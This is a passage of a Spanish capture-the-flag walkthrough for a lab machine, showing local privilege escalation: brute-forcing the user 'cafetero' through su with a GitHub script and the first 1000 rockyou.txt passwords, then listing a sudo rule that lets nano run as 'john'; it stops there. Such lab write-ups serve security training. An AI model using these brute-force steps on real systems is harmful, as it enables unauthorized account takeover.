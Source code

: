 ## Escalate user cafetero

Como no tenemos ssh para hacer fuerza bruta desde fuera, lo haremos desde dentro con el siguiente script.

URL = https://github.com/Maalfer/Sudo\_BruteForce/blob/main/Linux-Su-Force.sh

Nos lo copiamos y pegamos en el `/tmp` para ejecutarlo desde ahi, tambien copiaremos las 1000 primeras palabras del `rockyou.txt` para copiarlo en un `.txt` que crearemos dentro de la maquina para utilizarlo.

> Copiar el diccionario

```shell
head -1000 /usr/share/wordlists/rockyou.txt
```

Lo pegamos en un archivo dentro de la maquina.

```shell
nano /tmp/dic.txt

#Dentro del nano
<PASTE_1000_ROCKYOU.TXT>
```

Lo guardamos y tambien crearemos otro archivo.

```shell
nano script.sh

#Dentro del nano
<PASTE_SCRIPT_SU_FORCE>
```

Lo guardamos y lo ejecutamos de la siguiente forma, elegiremos a un usuario.

```shell
bash script.sh cafetero dic.txt
```

Info:

```
Contraseña encontrada para el usuario cafetero: 123123
```

Vemos las credenciales del usuario `cafetero`, por lo que cambiaremos a el.

```shell
su cafetero
```

Metemos la contraseña obtenida y ya seremos el.

## Escalate user john

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for cafetero on c334669636c3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cafetero may run the following commands on c334669636c3:
    (john) NOPASSWD: /usr/bin/nano
```
